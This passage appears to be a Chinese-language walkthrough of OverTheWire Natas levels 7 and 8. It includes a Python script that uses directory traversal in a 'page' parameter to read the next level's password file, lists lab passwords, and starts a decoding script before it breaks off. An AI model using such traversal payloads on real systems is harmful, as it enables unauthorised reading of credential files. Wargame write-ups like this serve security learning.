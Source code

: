         import requests as req
        import re

        user = "natas7"
        passwd = "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9"

        url = "http://%s.natas.labs.overthewire.org/" % user

        # 使用 get method 時要加入的變數
        params = {'page': '../../../../../etc/natas_webpass/natas8'}

        # get method
        response = req.get(url, auth=(user, passwd), params=params)
        content = response.text

        # . => 在 default 模式，匹配除了'\n'的任意字符。
        # * => 對它前面的 regular expression 匹配 0 到任意次重復。
        answer = re.findall("<br>\n(.*)\n\n<!--", content)[0]

        # with open("./Natas/response.html", mode='w', encoding='utf-8') as f:
        #     print(content, file=f)

        print(answer)
        ```

# <span class="bigTitle">Level8</span>
- username: natas8
- password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
- url: http://natas8.natas.labs.overthewire.org/
- Solution
    - 這題長的跟Level6一模一樣，只有Source code不一樣，這題的Source code如下所示，主要是要把cipherText decode成cheaperText，這個cheaperText就是\$encodedSecret的明碼
        ![](https://i.imgur.com/ElDXmMc.png)
    - 看Source code就知道用了base64、string reverse跟bin to hex，可以跟題目一樣用PHP轉，也可以用python(你只要會都可以)
        - PHP :
            ```php=
            #!/usr/bin/php

            <?php
                $cipher = '3d3d516343746d4d6d6c315669563362';
                $cheapText = base64_decode(strrev(hex2bin($cipher)));
                echo $cheapText;
            ?>
            ```
        - Python :
            ```python=
            import base64
